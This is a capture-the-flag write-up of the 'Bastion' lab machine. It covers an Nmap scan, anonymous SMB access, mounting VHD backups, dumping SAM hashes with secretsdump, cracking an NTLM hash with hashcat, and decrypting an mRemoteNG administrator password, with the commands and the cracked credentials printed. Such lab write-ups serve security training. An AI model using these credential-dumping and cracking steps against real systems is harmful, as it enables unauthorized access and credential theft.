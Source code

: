 ## Nmap scan:
```
# Nmap 7.92 scan initiated Tue Jan  3 20:45:06 2023 as: nmap -sC -sV -p- -vv -Pn -oA full 10.10.10.134
Increasing send delay for 10.10.10.134 from 0 to 5 due to 517 out of 1723 dropped probes since last increase.
Increasing send delay for 10.10.10.134 from 5 to 10 due to 11 out of 11 dropped probes since last increase.
Increasing send delay for 10.10.10.134 from 10 to 20 due to 11 out of 13 dropped probes since last increase.
Increasing send delay for 10.10.10.134 from 20 to 40 due to 11 out of 13 dropped probes since last increase.
Nmap scan report for 10.10.10.134
Host is up, received user-set (0.075s latency).
Scanned at 2023-01-03 20:45:07 EST for 2639s
Not shown: 65522 closed tcp ports (reset)
PORT      STATE SERVICE      REASON          VERSION
22/tcp    open  ssh          syn-ack ttl 127 OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC3bG3TRRwV6dlU1lPbviOW+3fBC7wab+KSQ0Gyhvf9Z1OxFh9v5e6GP4rt5Ss76ic1oAJPIDvQwGlKdeUEnjtEtQXB/78Ptw6IPPPPwF5dI1W4GvoGR4MV5Q6CPpJ6HLIJdvAcn3isTCZgoJT69xRK0ymPnqUqaB+/ptC4xvHmW9ptHdYjDOFLlwxg17e7Sy0CA67PW/nXu7+OKaIOx0lLn8QPEcyrYVCWAqVcUsgNNAjR4h1G7tYLVg3SGrbSmIcxlhSMexIFIVfR37LFlNIYc6Pa58lj2MSQLusIzRoQxaXO4YSp/dM1tk7CN2cKx1PTd9VVSDH+/Nq0HCXPiYh3
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBF1Mau7cS9INLBOXVd4TXFX/02+0gYbMoFzIayeYeEOAcFQrAXa1nxhHjhfpHXWEj2u0Z/hfPBzOLBGi/ngFRUg=
|   256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB34X2ZgGpYNXYb+KLFENmf0P0iQ22Q0sjws2ATjFsiN
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack ttl 127 Windows Server 2016 Standard 14393 microsoft-ds
5985/tcp  open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49670/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-01-04T02:28:58
|_  start_date: 2023-01-04T01:43:05
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_clock-skew: mean: -19m58s, deviation: 34m36s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 15404/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 26941/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 55848/udp): CLEAN (Timeout)
|   Check 4 (port 18741/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-01-04T03:28:59+01:00

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jan  3 21:29:06 2023 -- 1 IP address (1 host up) scanned in 2639.24 seconds
```

139/445 - The main ports I was going to investigate, no web server so the answer is most likely there.
22 - SSH port for a windows box is unique, might be interesting later on.

I tried to log into the SMB without a password, and it worked:
```
smbclient \\\\10.10.10.134\\Backups\
```
At first I was trying to recursively download all of the files there, but it was very slow and didn't seem to work, and then I stumbled upon the ```note.txt``` file and read it:

!(images/bastion/Pasted_image_20230104205316.png)

So I decided to mount the SMB share on my kali File System using this command:
```
mount -t cifs //10.10.10.134/Backups /mnt/smb
```
I searched for anything interesting there, and I found two .vhd files,
.vhd (virtual hard disk) file is: a disk image file format for storing the entire contents of a computer's hard drive. 
The disk image, sometimes called a virtual machine (VM), replicates an existing hard drive, including all data and structural elements.

!(images/bastion/Pasted_image_20230104210016.png)

To list the files I used this command:
```
7z -l
```
And I could see that the first file contained only BOOT files, and the second one appeared to be the interesting one, so I used guestmount tool to view the files inside:
```
guestmount --add *filename* --inspector --ro -v /mnt/vhd
```

![testing](images/bastion/Pasted_image_20230104210329.png)
After a while of enumeration, I couldn't find any flags or other files that could be useful so I decided to copy the SAM and SYTEM files and dump them later on.
to do that I did this:
```
cd /Windows/Sytem32/config/
cp SYSTEM SAM .
secretsdump.py -sam SAM -system SYSTEM local
```
And this is what I got:
```
[*] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
[*] Cleaning up... 
```
I used hashcat to crack L4mpje NTLM hash:
```
hashcat -m 1000 L4mpje_hash /usr/share/wordlists/rockyou.txt
``` 
Result:
```
26112010952d963c8dc4217daec986d9:bureaulampje
```

Since WinRM port (5985) Was open, I tried to connect via evil-winrm, and when it didn't work I tried using the SSH port and it worked.


# Privilege Escalation

I used winPEAS for enumeration at first, but couldn't find anything that was useful.
So I started to enumerate manually, and I found mRemoteNG directory on ```C:\Program Files (x86)```
I have never seen seen it before, so I searched and read about it, and this is what I found:

**mRemoteNG:**
mRemoteNG (mremote) is an open source project (https://github.com/rmcardle/mRemoteNG) that provides a full-featured, multi-tab remote connections manager. It  supports RDP, SSH, Telnet, VNC, ICA, HTTP/S, rlogin, and raw socket connections. Additionally, It also provides the means to save connection settings such as hostnames, IP addresses, protocol, port, **and user credentials, in a password protected and encrypted connections file.**

The password can be found at ```%appdata%/mRemoteNG``` in a file named confCons.xml. This password can sometimes be the administrator password

!(images/bastion/Pasted_image_20230104222607.png)

When I read the file I found this:
```                                                                                                                                           
<Node Name="DC" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="500e7d58-662a-44d4-aff0-3a4f547a3fee" Userna                                                             
me="Administrator" Domain="" Password="aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=="                                                             
```
It looks like the Administrator password, to decrypt it I used a tool called [mRemoteNG-Decrypt](https://github.com/haseebT/mRemoteNG-Decrypt)
!(images/bastion/Pasted_image_20230104223021.png)

I connected via SSH, and it worked:

!(images/bastion/Pasted_image_20230104223144.png)

testing